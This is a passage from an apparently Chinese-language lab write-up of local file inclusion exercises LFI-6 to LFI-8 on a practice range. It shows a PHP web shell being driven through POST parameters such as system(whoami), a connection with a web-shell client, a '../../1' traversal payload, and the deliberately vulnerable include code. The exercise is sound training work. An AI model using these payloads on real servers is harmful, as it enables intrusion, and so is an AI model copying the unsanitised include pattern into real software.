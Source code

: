 ![image-20241031112725441](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031112725441.png)

##### 执行木马

通过hacker bar进行post，shell中传入`echo "Hello World!"`;

```bash
http://192.168.70.10:8101/LFI-6/shell.php

shell=echo "Hello World!";
shell=system(whoami);
```

![image-20241031112906713](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031112906713.png)

![image-20241031113044991](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031113044991.png)

##### 蚁剑连接

```bash
http://192.168.70.10:8101/LFI-6/shell.php
shell
```

![image-20241031113158597](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031113158597.png)

![image-20241031113215723](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031113215723.png)

#### LFI-7

```bash
<?php
include("includes/".$_POST['library'].".php"); 
?>
```

![image-20241031133637280](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031133637280.png)

原理是一样的，只不过这里library用的是post方法传参数的

> ../../1

```bash
http://192.168.70.10:8101/LFI-7/index.php

library=../../1
```

![image-20241031133858735](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031133858735.png)

#### LFI-8 

```bash
<?php
if (substr($_POST['file'], -4, 4) != '.php')
 echo file_get_contents($_POST['file']);
else
 echo 'You are not allowed to see source files!'."\n";
?>
```
